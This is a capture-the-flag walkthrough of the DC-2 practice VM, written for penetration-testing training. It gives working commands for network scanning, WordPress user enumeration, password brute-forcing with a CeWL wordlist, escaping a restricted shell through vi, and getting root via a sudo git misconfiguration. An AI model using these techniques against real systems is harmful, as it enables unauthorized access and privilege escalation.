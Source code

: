 # DC-2 Machine Walkthrough

**Credits:**

**Rejaul Islam**  
_Security enthusiast_

............................................

## Overview

DC-2 is a vulnerable virtual machine designed for penetration testing practice. This walkthrough covers the complete process from reconnaissance to gaining root access.

## Initial Reconnaissance

### Finding the Target IP

```bash
sudo netdiscover
```

**Result:**

```
192.168.0.131   08:00:27:5e:07:20      2     120  PCS Systemtechnik GmbH
```

### Port Scanning with Rustscan

```bash
rustscan -a 192.168.0.131
```

### Service Enumeration with Nmap

```bash
nmap -sC -sV -n -v -p 22,7744 192.168.0.131
```

**Result:**

```
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
7744/tcp open   ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey:
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:5E:07:20 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website Enumeration

### Adding to Hosts File (if needed)

```
echo "192.168.0.131 dc-2" | sudo tee -a /etc/hosts
```

### WordPress User Enumeration

```
wpscan --url http://dc-2/ --enumerate u --api-token <YOUR_API_TOKEN>
```

**Note:** Add your api token here. Login into wpscan website and get the token
I found this username from this scan..
**Result:**

```
[+] admin
[+] jerry
[+] tom
```

Save the usernames to a file:

```
echo -e "admin\njerry\ntom" > users.txt

```

OR

```
nano file_name.txt
```

- then paste those username

### Creating Custom Wordlist

Since the usual wordlists won't work, we create a custom one using CeWL:

```
cewl http://dc-2 | tee custom_wordlist.txt
```

### Password Bruteforce Attack

```
wpscan --url http://dc-2 -U users.txt -P custom_wordlist.txt --api-token YOUR_API_TOKEN
```

**Note:** Make sure your username and password file into same directory otherwise this command not working, then you need to add your file path to run this command.
**Result:**

```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

## Gaining Access

Now you can login with ssh, but in this case just tom user can login with ssh first.

### SSH Connection

```
ssh -p 7744 tom@dc-2
```

Password: `parturient`

### Escaping Restricted Shell (rbash)

Upon login, you'll find yourself in a restricted bash shell. Here's how to escape:

1. **Using Vi to escape:**

```
vi
:set shell=/bin/bash
:shell
```

2. **Setting proper PATH:**

```
export PATH=$PATH:/bin:/usr/bin
```

### Reading User Flags

```
# Read tom's flag
cat /home/tom/flag3.txt

# Switch to jerry, now we can login with another user
su jerry
Password: adipiscing

# Read jerry's flag
cat /home/jerry/flag4.txt
```

Now we need to get the root access to get the final flag.

## Privilege Escalation

### Checking Sudo Permissions

```
sudo -l
```

### Exploiting Git Sudo Privileges

- Respose:

```
(root) NOPASSWD: /usr/bin/git
```

now we need to search with git into gtfobins website. Here multiple sudo try those one by one and see the response and monitoring this response.

Use this sodo to get the root access:

```
sudo git -p help config
!/bin/sh
```

Now we are in root shell

### Reading Final Flag

```
cd /root
cat final-flag.txt
```

THE FLAG -

```
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

```

## Key Learning Points

1. **Custom Wordlists**: Real-world scenarios often require custom wordlists tailored to the target
2. **Restricted Shell Escape**: Techniques to break out of rbash environments
3. **Sudo Privilege Escalation**: Exploiting misconfigured sudo permissions
4. **WordPress Security**: Importance of strong passwords and proper user enumeration protection

--- THE END ---
